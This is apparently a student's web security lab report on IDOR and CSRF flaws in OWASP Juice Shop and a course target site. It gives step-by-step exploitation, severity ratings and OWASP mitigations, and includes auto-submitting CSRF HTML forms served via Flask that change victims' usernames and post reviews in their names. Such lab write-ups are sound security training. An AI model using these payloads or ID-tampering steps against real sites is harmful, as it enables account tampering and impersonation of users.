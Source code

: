 # Web Application Security

## Week 01  

### Authorization Bypass:

#### JuiceShop - View Basket

**Title:** Unauthorized user can view other users baskets.

**Description:** Web Application has insecure direct object vulnerability. Application stores unecrypted basket id in session storage when querying basket items from users basket. Changing basket id enables unauthorized user to view other users basket.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/3000`.
2. Login in to the website.
3. Head to basket.
4. Open developer tools and view `storage` tab.
5. In `storage` tab, select `session storage`.  
    5. You can find attribute `bid` = `basket id`.
6. Change `bid` value for example: `3`. Navigate to any other view in the website and open `basket` again.
7. Other users basket is now visible to you.  

<img src="../images/was1.PNG" style="width=500;" />

* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See ![4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
    * Check two parameters: buid and authenticate for which user buid belongs to.  



---

#### Main target - Order history is vulnerable to Indirect Object Reference

**Title:** Unauthorized user can view other users order history and access address information.

**Description:** Web Application has insecure direct object vulnerability.  Application enables unauthorized user to view other user order history by chaning user id in the url address.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi`.
2. Login in to the website.
3. When logged in hover over dropdown navigation on top left and press `order history`.
4. When viewing your order history, url is: `http://wasdat.fi/user/13/orders`.
5. Change user id to see view other peoples order history. user id `3` exposes the flag.
> `http://wasdat.fi/user/3/orders`  

<img src="../images/was2.png" style="width=500;" />


* Impact estimation:
    * Low Severity. User can access other users order history and view their address information.
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See ![4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)
    * Check two parameters: buid and authenticate for which user buid belongs to.  
    * Don't include user id in url parameter.

---

### Cross Site Forgery

#### Juice Shop - Cross-Site Request Forgery (2 point) :

**Title:** Cross Site Forgery - Change victim username 

**Description:** Web Application allows cross site request and is vulnerable for forged websites to send http requests to application. This allows malicious websites execute `http:POST/`  request towards the website and change other users usernames.

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Juice Shop Redirect</title>
        <script>
            window.onload = function() {
                document.getElementById("autoSubmitForm").submit();
            }
        </script>
    </head>

    <body>
        <form action="http://wasdat.fi:3000/profile" method="post" id="autoSubmitForm">
            <input name="username" value="ab0197" />
            <input type="submit">
        </form>
    </body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi:3000` and goes to your url, in this case: `http://127.0.0.1:5000/` his username will be automically changed to `ab0197` and will be directed to his profile page.  

<img src="../images/was3.png" style="width=500;" />


* Impact estimation:
    * Low Severity. User can make harm for other users by changing their usernames.
* Mitigation:
    * Require http headers not to allow requests from from other origins.
        * See: ![Cross-Site Request Forgery preventation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#verifying-origin-with-standard-headers)
---

#### Main Target - Review product feature is vulnerable for CSRF attack

**Title:** Cross Site Forgery - Review product feature is vulnerable.

**Description:** Web Application has vulnerability in Review product feature. This vulnerability allows malicious website to send product reviews under other users name. In addition even though not exploited in this implementation, there is following vulnerabilities: 
    * csfr tokens are not hidden
    * cookies are not set to expire after session
    * double token validation is not implemented

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Wasdat Redirect</title>
    <script>
        window.onload = function() {
            document.getElementById("autoSubmitForm").submit();
        }
    </script>
</head>
<body>
        <form action="http://wasdat.fi/product/2" method="post" id="autoSubmitForm">
                <input name="review" value="ab0197"/>
                <input type="submit"/>
        </form>
</body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi/` and goes to your url, in this case: `http://127.0.0.1:5000/`. This makes automatic `http /post` request to `http://wasdat.fi/product/2` creating a new product review with value: `ab0197`. This new review is not visible to user untill he visits the page next time.  

<img src="../images/was4.png" style="width=500;" />
<img src="../images/was5.png" style="width=500;" />


* Impact estimation:
    * Low Severity. Malicious website can make harm for other users by posting product reviews under other users usernames.
* Mitigation:
    * Require http headers not to allow requests from from other origins.
    * csfr tokens and session id's should not be visible to users.
        * See: ![Token based mitigation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#token-based-mitigation)
    * Require `http headers` not to allow requests from from other origins.
        * See: ![Cross-Site Request Forgery preventation](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#verifying-origin-with-standard-headers)



